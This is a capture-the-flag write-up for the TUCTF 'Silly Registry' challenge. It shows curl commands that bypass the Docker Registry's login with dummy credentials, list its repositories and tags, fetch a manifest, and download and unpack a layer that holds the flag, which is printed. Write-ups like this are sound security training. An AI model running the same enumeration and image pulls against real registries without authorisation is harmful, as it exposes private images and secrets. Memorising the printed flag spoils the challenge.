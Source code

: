 # Silly Registry [83 Solves]

## Description

> Everything about this registry is silly!
>
> `chal.tuctf.com:30003`

## Flag

TUCTF{my_51lly_53cr37_15_54f3_w17h_y0u}

## Solution

This challenge endpoint is Docker Registry API.

- [5000 - Pentesting Docker Registry - HackTricks](https://book.hacktricks.xyz/network-services-pentesting/5000-pentesting-docker-registry)

Auth is required but it can be bypassed by dummy user (e.g. `user:pass` credential).
Detect silly-container service tag and fetch its manifest.
then, get the blob and extract it.

```console
$ curl -s -u user:pass http://chal.tuctf.com:30003/v2/_catalog
{"repositories":["silly-container"]}

$ curl -s -u user:pass http://chal.tuctf.com:30003/v2/silly-container/tags/list
{"name":"silly-container","tags":["latest"]}

$ curl -s -u user:pass http://chal.tuctf.com:30003/v2/silly-container/manifests/latest
{
   "schemaVersion": 1,
   "name": "silly-container",
   "tag": "latest",
   "architecture": "amd64",
   "fsLayers": [
      {
         "blobSum": "sha256:cb4b479aa0aecd737667fbfcceb60f7c1bd9dda82acec2ff8841a48c7a8c627b"
      },
      {
         "blobSum": "sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4"
      },
      {
         "blobSum": "sha256:7264a8db6415046d36d16ba98b79778e18accee6ffa71850405994cffa9be7de"
      }
   ],
   "history": [
      {
         "v1Compatibility": "{\"architecture\":\"amd64\",\"config\":{\"Env\":[\"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\"],\"Cmd\":[\"/bin/sh\"],\"OnBuild\":null},\"created\":\"2023-09-18T04:47:37.053052193Z\",\"id\":\"0081e0af272b7ef1fa894f620bdcf8f87178b9b2fad77abf5447176bbdedc7dd\",\"os\":\"linux\",\"parent\":\"0a58ea0cbdf7a831e5b92f945b32fbd2ef82f57436bea99335802ae47baf1959\"}"
      },
      {
         "v1Compatibility": "{\"id\":\"0a58ea0cbdf7a831e5b92f945b32fbd2ef82f57436bea99335802ae47baf1959\",\"parent\":\"d625e347fd805c6f1b9083d12a28e98c34d63fa644945fa1e874776ad50441d2\",\"created\":\"2023-08-07T19:20:20.894140623Z\",\"container_config\":{\"Cmd\":[\"/bin/sh -c #(nop)  CMD [\\\"/bin/sh\\\"]\"]},\"throwaway\":true}"
      },
      {
         "v1Compatibility": "{\"id\":\"d625e347fd805c6f1b9083d12a28e98c34d63fa644945fa1e874776ad50441d2\",\"created\":\"2023-08-07T19:20:20.71894984Z\",\"container_config\":{\"Cmd\":[\"/bin/sh -c #(nop) ADD file:32ff5e7a78b890996ee4681cc0a26185d3e9acdb4eb1e2aaccb2411f922fed6b in / \"]}}"
      }
   ],
   "signatures": [
      {
         "header": {
            "jwk": {
               "crv": "P-256",
               "kid": "IQJ4:VJAG:MSSV:PKWX:J3PF:GPAZ:CVXU:LHP6:WJ3Q:3LLK:33KS:QZLP",
               "kty": "EC",
               "x": "OloWm_iEFgfn0bUc0wtPwAl2_YqOe4PzqqYC24yl0To",
               "y": "QV1knZcm83dag_76BZ8bEl7JGpAS6LDaiJQO8kbVSoA"
            },
            "alg": "ES256"
         },
         "signature": "fDtjFLadmEmVb2dVZS43lYmWrBxGO7uuCsLLeyWLPT-dL9aiOMAC1vLHn6jL-DlXZK_Bwiln6YSgDfXHUurnSA",
         "protected": "eyJmb3JtYXRMZW5ndGgiOjE1NjAsImZvcm1hdFRhaWwiOiJDbjAiLCJ0aW1lIjoiMjAyMy0xMi0wM1QxNjowMjoxMFoifQ"
      }
   ]
} 

$ curl -s -u user:pass http://chal.tuctf.com:30003/v2/silly-container/blobs/sha256:cb4b479aa0aecd737667fbfcceb60f7c1bd9dda82acec2ff8841a48c7a8c627b -o blob1.tar

$ file blob1.tar
blob1.tar: gzip compressed data, original size modulo 2^32 2048

$ tar xvf blob1.tar
flag.txt

$ cat flag.txt
TUCTF{my_51lly_53cr37_15_54f3_w17h_y0u}
```
